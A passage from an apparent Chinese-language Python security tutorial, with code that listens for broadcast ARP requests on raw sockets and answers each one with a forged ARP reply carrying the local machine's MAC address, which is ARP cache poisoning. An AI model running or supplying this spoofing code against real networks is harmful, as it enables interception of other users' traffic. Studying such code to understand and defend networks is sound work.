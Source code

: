 *   代码中将使用以下模块：

```py
      import socket
      import struct
      import binascii
      import Queue
      import threading
      import sys
```

*   在下面的代码中，创建了两个套接字。一个用于接收器，另一个用于发送应答包。全局队列`Q`创建如下：

```py
      mysocket = socket.socket(socket.PF_PACKET, socket.SOCK_RAW, 
      socket.ntohs(0x0806))
      mysocket_s = socket.socket(socket.PF_PACKET, socket.SOCK_RAW, 
      socket.ntohs(0x0806))
      mysocket_s.bind(('eth0',socket.htons(0x0806)))

      Q = Queue.Queue()
```

*   以下函数接收传入帧。`arp_l = struct.unpack("!2s2sss2s6s4s6s4s",arp_h)`代码解压 ARP 数据包，`if arp_l[4] == '\x00\x01':`语法仅广播 ARP 数据包。`Q.put([eth,arp_l])`语法将数据包放入全局队列`Q`，如下所示：

```py
      def arp_receiver():
        while True:
          pkt = mysocket.recvfrom(1024)
          ethhead = pkt[0][0:14]
          eth = struct.unpack("!6s6s2s",ethhead)
          binascii.hexlify(eth[2])
          arp_h = pkt[0][14:42]
          arp_l = struct.unpack("!2s2sss2s6s4s6s4s",arp_h)
          if arp_l[4] == '\x00\x01':
            Q.put([eth,arp_l])
```

*   下面的函数从全局队列获取 ARP 数据包。该函数从用户提供的命令行参数中获取 MAC（当前机器 MAC）。形成以太网和 ARP 报文后，`mysocket_s.send(target_packet)`语法发送报文如下：

```py
         def arp_sender():
            while True:
             main_list = Q.get()
             eth_header = main_list[0]
             arp_packet = main_list[1]
             mac_sender = sys.argv[1].decode('hex')
             eth1 = eth_header[1]+mac_sender+eth_header[-1]
             arp1 = "".join(arp_packet[0:4])
             arp1 = arp1+'\x00\x02'+mac_sender+   
             arp_packet[-1]+arp_packet[5]+arp_packet[6]
             target_packet = eth1+arp1
             mysocket_s.send(target_packet)
```
